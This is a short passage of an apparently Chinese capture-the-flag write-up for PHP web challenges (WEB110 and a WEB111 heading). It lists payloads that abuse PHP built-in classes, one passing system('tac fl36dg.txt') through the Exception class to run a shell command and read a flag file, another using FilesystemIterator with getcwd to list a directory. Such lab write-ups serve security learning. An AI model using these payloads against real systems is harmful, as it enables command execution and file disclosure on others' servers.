 考点类利用

exception：返回字符串

payload：/?v1=exception&v2=system('tac fl36dg.txt')

## WEB110  php内置类 利用

![110](img/110.png)

考察：php内置类 利用 FilesystemIterator 获取指定目录下的所有文件 http://phpff.com/filesystemiterator https://www.php.net/manual/zh/class.filesystemiterator.php getcwd()函数 获取当前工作目录 返回当前工作目录

 payload: ?v1=FilesystemIterator&v2=getcwd


## WEB111  变量覆盖

<img src="img/111.png" alt="111" style="zoom:67%;" />
